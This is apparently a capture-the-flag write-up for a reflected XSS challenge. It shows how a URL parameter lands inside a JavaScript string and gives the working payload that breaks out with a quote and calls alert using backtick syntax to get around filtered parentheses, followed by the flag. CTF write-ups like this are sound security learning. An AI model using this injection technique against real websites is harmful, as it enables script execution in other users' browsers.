 http://xss2.sect.ctf.rocks/index.php?xss=stuff

I spent quite some time on this, and I learned something new :)

The xss parameter was set to a variable 'a':

<script>
var a = "stuff";
</script>

The most useful characters was filtered, I had almost given up when I found a clue in an old write-up and managed to get an alert () :)
```
http://xss2.sect.ctf.rocks/?xss=stuff%22;%20alert`1`//
```

Which became:
```
<script>
var a = "stuff"; alert`1`//";
</script>
```

sect{c4t_g0t_ur_p4r3nth3s3s?}

\o/
